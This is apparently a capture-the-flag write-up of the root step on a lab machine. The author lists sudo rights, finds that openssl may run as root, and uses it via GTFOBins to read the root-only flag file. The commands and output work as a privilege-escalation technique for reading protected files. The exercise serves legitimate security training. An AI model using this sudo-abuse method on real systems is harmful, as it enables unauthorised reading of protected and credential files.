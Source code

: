 
> In order to get the root flag it was improtatnt to use sudo -l.

~~~term
sysadmin@93e4ad68c07c:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for sysadmin: 
Matching Defaults entries for sysadmin on 93e4ad68c07c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sysadmin may run the following commands on 93e4ad68c07c:
    (ALL : ALL) /usr/bin/openssl
~~~

> Then going to GTFO bins we can find the method to read files using sudo with openssl

~~~term
sysadmin@93e4ad68c07c:~$ openssl enc -in "/root/root.txt"
Can't open /root/root.txt for reading, Permission denied
140438538339456:error:0200100D:system library:fopen:Permission denied:../crypto/bio/bss_file.c:69:fopen('/root/root.txt','rb')
140438538339456:error:2006D002:BIO routines:BIO_new_file:system lib:../crypto/bio/bss_file.c:78:
sysadmin@93e4ad68c07c:~$ sudo openssl enc -in "/root/root.txt"
245_SKILLS{Acc3s_All_Ar3@s}
~~~

Got the root flag.
